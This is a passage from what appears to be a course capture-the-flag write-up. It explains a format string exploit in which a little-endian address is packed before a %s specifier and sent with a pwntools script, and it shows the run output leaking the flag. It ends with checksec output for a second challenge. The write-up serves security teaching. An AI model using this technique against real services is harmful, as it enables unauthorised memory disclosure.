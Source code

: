 So the payload to send will be `<address>%s` . The last thing to note is that we cannot sent `\x08\x04\xc0\x60%s` because the program was compiled in little-endian, so we need to send the address in the reverse order:

```python
from pwn import *
(...)
p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

And by executing the python script, we can get the flag:

```bash
seed@4eb7a33b0273:~$ python3 exploit_example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4004: Done
[*] Switching to interactive mode
You gave me this: `\xc0flag{5fc247063bea425edc863667ac9d09bc}

Disqualified!
[*] Got EOF while reading in interactive
```

![ctf62_stack_1.png](../images/ctf62_stack_1.png)

### Challenge 2

Again, we start by running `checksec` on the program, and we get the same results as before, so we can try another format string attack.

```python
seed@01263caa2989:~$ checksec program
[*] '/home/seed/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
